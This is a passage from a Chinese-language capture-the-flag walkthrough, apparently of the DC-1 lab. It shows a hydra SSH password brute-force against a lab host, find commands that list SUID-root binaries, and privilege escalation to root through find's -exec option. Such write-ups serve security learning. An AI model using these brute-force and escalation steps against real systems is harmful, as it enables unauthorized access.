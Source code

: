![图片描述](https://static.cdnjs.cloud/20210808/image-1628386238369_389998410000.png)

翻译flag3提示
>特殊的PERMS将帮助FIND密码——但你需要-exec该命令来找出如何获取shadow中的内容

提示我们需要特殊的fina权限去执行操作

# 获取flag4
返回终端`/etc/passwd`发现flag4
![图片描述](https://static.cdnjs.cloud/20210808/image-1628386474834_121893517518.png)

查看flag4提示
![图片描述](https://static.cdnjs.cloud/20210808/image-1628386546556_788730630513.png)
>您能否使用同一方法查找或访问根中的标记？
>可能。但也许没那么容易。 也许是吧？

我们使用同一方法去执行操作
首先利用九头蛇（hydra）破解flag4密码
```
hydra -l flag4 -P /usr/share/john/password.lst 192.168.40.141 ssh -vV -f -o hydra.ssh
```
![图片描述](https://static.cdnjs.cloud/20210808/image-1628386750118_80432704617.png)
得到密码为orange
ssh登录flag4账户
![图片描述](https://static.cdnjs.cloud/20210808/image-1628386899760_817248448318.png)

# 获取flag5（find提权）
## 信息收集
应该要查看shadow文件，并使用SUID命令提权。
![图片描述](https://static.cdnjs.cloud/20210808/image-1628387058520_345649857727.png)
使用以下命令可以发现系统上运行的所有SUID可执行文件。具体来说，命令将尝试查找具有root权限的SUID的文件。
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

![图片描述](https://static.cdnjs.cloud/20210808/image-1628387119923_798852056477.png)

## 测试
```
利用find命令随便查找一个正确的文件（夹）路径，后面加上 -exec shell命令 \;：
```
![图片描述](https://static.cdnjs.cloud/20210808/image-1628387306359_691298869757.png)

发现find确实可以以root权限运行。
